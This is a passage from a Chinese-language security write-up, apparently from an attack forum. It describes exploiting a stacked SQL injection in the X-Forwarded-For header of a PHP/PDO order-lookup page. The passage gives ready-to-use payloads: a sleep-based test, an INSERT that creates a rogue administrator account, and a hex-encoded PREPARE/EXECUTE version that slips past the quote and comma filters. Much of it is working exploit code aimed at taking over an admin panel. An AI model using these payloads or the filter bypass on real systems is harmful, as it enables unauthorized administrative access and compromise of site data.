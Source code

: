 因为有csrf\_token的校验，我们必须在查询订单的页面，随便输入个订单号，随后输入正确的验证码，随后查询才有效

随后手动构造XFF头，进行针对PDO的堆叠注入

因为PDO处为双引号进行语句闭合，且属于无回显的堆叠注入

故构造Payload为

```php
X-FORWARDED-For:1';select sleep(5)#
```

![image-20210526202008945](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f0c03bc48e67832e7f2e5d9c3736545752030e2e.png)

延迟了5s，注入成功。

针对这种没回显的堆叠注入，盲注太慢，用Dnslog OOB又太慢，所以选择构造一个添加后台管理员的insert payload

```php
X-FORWARDED-For:1“;insert into t_admin_user values(99,&quot;test@test.test&quot;,&quot;76b1807fc1c914f15588520b0833fbc3&quot;,&quot;78e055&quot;,0);
```

但是现实是很残酷的，测试发现，在XFF头中，1"将语句闭合后只要出现了引号或者逗号，就会引发报错，SQL语句无法执行

但是具有一定审计经验的兄弟一定会想到，PDO下Prepare Statement给我们提供了绕过过滤进行注入的沃土

山重水复疑无路，柳暗花明又一村

#### 5.3 Prepare Statement构造注入语句

**知识补充 --- Prepare Statement写法**

MySQL官方将prepare、execute、deallocate统称为PREPARE STATEMENT(预处理)

预制语句的SQL语法基于三个SQL语句：

```sql
prepare stmt_name from preparable_stmt;
execute stmt_name [using @var_name [, @var_name] ...];
{deallocate | drop} prepare stmt_name;
```

给出MYSQL中两个简单的demo

```php
set@a=&quot;select user()&quot;;PREPARE a FROM @a;execute a;select sleep(3);#
set@a=0x73656C65637420757365722829;PREPARE a FROM @a;execute a;select sleep(3);#  
//73656C65637420757365722829为select user() 16进制编码后的字符串，前面再加上0x声明这是一个16进制字符串
```

Prepare语句在防范SQL注入方面起到了非常大的作用，但是对于SQL注入攻击却也提供了新的手段。

Prepare语句最大的特点就是它可以将16进制串转为语句字符串并执行。如果我们发现了一个存在堆叠注入的场景，但过滤非常严格，便可以使用prepare语句进行绕过。

将我们的insert语句直接hex编码

![image-20210526200448332](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b40012f483942af617e4f2f6722674393d39a1a6.png)

构造注入语句

```php
X-FORWARDED-For:1&quot;;set@a=0x696E7365727420696E746F20745F61646D696E5F757365722076616C7565732839392C227465737440746573742E74657374222C223736623138303766633163393134663135353838353230623038333366626333222C22373865303535222C30293B;PREPARE a FROM @a;execute a;select sleep(3);#
//sleep用于判断注入是否成功
```
